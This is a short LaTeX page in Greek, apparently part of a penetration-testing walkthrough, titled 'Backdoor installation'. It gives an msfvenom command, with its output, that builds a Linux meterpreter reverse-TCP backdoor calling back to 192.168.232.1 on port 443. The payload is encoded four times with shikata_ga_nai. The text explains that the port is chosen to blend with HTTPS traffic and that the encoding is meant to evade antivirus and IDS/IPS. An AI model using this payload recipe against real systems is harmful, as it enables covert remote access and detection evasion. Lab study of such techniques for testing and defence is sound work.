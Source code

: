 \documentclass[12pt]{report}
\begin{document}
\section{Εγκατάσταση \textlatin{backdoor}}
Μπορούμε τώρα να δημιουργήσουμε το \textlatin{payload} που θα χρησιμοποιήσουμε για την \textlatin{backdoor}. Χρησιμοποιούμε την πόρτα 443, ώστε το \textlatin{traffic} να μην εγείρει υποψίες (φυσιολογική κίνηση). Επίσης η συγκεκριμένη επιλογή πόρτας συνήθως μας εξασφαλίζει οτι η κίνησή μας δε φιλτράρεται, γιατι το \textlatin{https inspection} κατά κανόνα αποφεύγεται για νομικούς λόγους... Σε ένα νέο \textlatin{shell} στο τοπικό μηχάνημα πληκτρολογούμε:
\begin{scriptsize}
\begin{verbatim}
root@kali# msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.232.1 LPORT=443 -e x86/shikata_ga_nai
-i 4 -f elf -o muser

No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 4 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 98 (iteration=0)
x86/shikata_ga_nai succeeded with size 125 (iteration=1)
x86/shikata_ga_nai succeeded with size 152 (iteration=2)
x86/shikata_ga_nai succeeded with size 179 (iteration=3)
x86/shikata_ga_nai chosen with final size 179
Payload size: 179 bytes
Final size of elf file: 263 bytes
Saved as: muser
\end{verbatim}
\end{scriptsize}
Δημιουργήσαμε με αυτό τον τρόπο ένα \textlatin{meterpreter reverse tcp backdoor} το οποίο και κωδικοποιήσαμε 4 φορές, ώστε να αποφύγουμε την ανίχνευσή του από κάποιο \textlatin{antivirus} ή \textlatin{IPS/IDS}.
\end{document}
